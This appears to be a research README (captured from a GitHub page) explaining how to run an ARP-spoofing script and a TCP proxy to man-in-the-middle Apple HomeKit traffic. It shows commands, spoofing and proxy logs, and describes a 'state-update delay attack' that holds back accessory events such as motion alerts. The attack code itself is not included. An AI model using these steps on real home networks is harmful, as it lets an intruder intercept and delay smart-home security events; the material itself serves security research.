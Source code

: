  Then, run the script with sudo privilege and leave it running.

```bash
$ sudo -E python3 spoof.py
```

The script will prompt the sending of each arp response like this

```jsx
[+] Sent to 192.168.1.198 : 192.168.1.151 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.151 : 192.168.1.198 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.198 : 192.168.1.151 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.151 : 192.168.1.198 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.198 : 192.168.1.151 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.151 : 192.168.1.198 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.198 : 192.168.1.151 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.151 : 192.168.1.198 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.198 : 192.168.1.151 is-at 28:16:a8:4e:f3:49
[+] Sent to 192.168.1.151 : 192.168.1.198 is-at 28:16:a8:4e:f3:49
```

After the redirection of packets, we run our proxy program that listens to the redirection port. On receiving any TCP connection requests, it accepts them and retrieves the original destination IP address. Then, it launches a new connection to the original destination IP address (i.e., the HomeKit hub). As a result, an originally direct TCP session between the accessory and the hub is broken into two independent ones. For any accessory-to-hub session, we spawn 4 threads to handle the write and read of each TCP connection. Messages received from one side are put into a queue, which is popped and sent out by the writing thread of the other side. By checking the content in the queue, we can inspect every received message.

The proxy program is located in `<project_root>/proxy/passthrough.py`. You can run it by specifying the redirection port. By default the port is 10000. Please make sure the port is not occupied by other program and matches the configuration in `<project_root>/spoof/delay.conf`.

```scheme
.$ python3 proxy.py -p 10000 # -p is used to specify the redirection port, need to match the set value in `delay.conf`
```

Then, the program will automatically prompt the length and time of received packets.

```jsx
ceron@ceron-surface:~/Desktop/homekit/proxy$ python3 passthrough.py 
03/25/2021 05:47:46 PM | start listening at port 10000
03/25/2021 05:54:31 PM | 180 bytes to ('192.168.1.151', 8080)
03/25/2021 05:54:31 PM | new session with ('192.168.1.151', 8080) is established
03/25/2021 05:54:31 PM | 80 bytes to ('192.168.1.198', 49167)
03/25/2021 05:54:31 PM | 140 bytes to ('192.168.1.198', 49167)
03/25/2021 05:54:31 PM | 269 bytes to ('192.168.1.151', 8080)
03/25/2021 05:54:31 PM | 78 bytes to ('192.168.1.198', 49167)
03/25/2021 05:54:31 PM | 3 bytes to ('192.168.1.198', 49167)
```

### **State-Update Delay Attack.**

The same type of events of a specific accessory can be easily recognized by its length. For example, clicking the Philips Hue dimmer causes event messages of 187 bytes from the Philips Hue bridge to the HomeKit hub, and active motion event messages have a fixed length of bytes. We inspect every packet that is received from the accessory. If it has the matching length, we let the thread that is writing to the hub sleep for a period. In this way, the target event is sent out after the sleeping period, which means a delay of event arrival. Since we maintain separate TCP connections with the hub and the accessory, all received TCP segments will be acknowledged automatically to prevent the TCP timeout and none of the order of TCP segments order will be broken. As a result, the TCP connection is maintained and would not break during the delay of events. 
